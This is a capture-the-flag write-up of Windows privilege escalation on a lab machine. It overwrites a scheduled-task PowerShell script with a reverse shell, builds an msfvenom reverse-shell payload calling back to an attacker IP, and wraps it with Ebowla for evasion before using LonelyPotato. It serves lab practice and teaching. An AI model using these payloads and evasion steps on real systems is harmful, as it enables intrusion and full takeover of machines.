 ### Using What We've Found

On Sarahs Desktop were two files, a PowerShell script and an XML file. 

The XML file contained all of the configuration settings for a task that was scheduled to run once an hour as the Admin user. The task that ran was to execute the PowerShell script also on the Desktop, so we just changed the content to a reverse shell.

Missed it the first time because I forgot to hit enter on the `nc` catcher. Got it nice and clean second time, straight into the Administrators Desktop, and found the `root.txt`.

`root:608bb707348105911c8991108e523eda`

### MORE ROOT SHELLS!

OK so there are a few ways to get a root shell on this machine, and we're going to go through them now, just for poops and giggles. 

__ROOT SHELL #2__

*Potatoes laced with Ebola*

Got this one from an ippsec Video, so shoutouts. This is a nice little technique. 

The first priv-esc shell we're going to use is a variant of RottenPotato called lonelypotato, and it was created by one of the HackTheBox guys.

To perform this attack we'll need two things:

- [LonelyPotato](https://github.com/decoder-it/lonelypotato)
- [Ebowla](https://github.com/Genetic-Malware/Ebowla)

What is going to happen is as follows:

- We'll upload both files to the target machine (doesn't matter how really)
- We'll then use the lonelypotato executable to fire another shell which we'll encode with Ebowla 

First we created a basic MSFVenom payload with a reverse shell we could catch using `nc` (becausee we're still not using MetaSploit) 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=9003 -f exe -a x64 -o 9003.exe`

Then we use Ebowla to turn it into a GO binary by messing with some of the config options in `genetic.config` in the Ebowla directory. 

After we've changed the options we want (in our case we changed the payload to GO, the output to EXE, removed most of the system variables except added the HOSTNAME as TALLY) we simply give the following command:

```
python ebowla.py 9003 genetic.config
```

And that'll output to the `output` folder.

At this point I ran into an issue because I didn't have the correct MinGW compiler:

`apt install mingw-w64 mingw-w64-x86-64-dev` 

That sorted it right out.
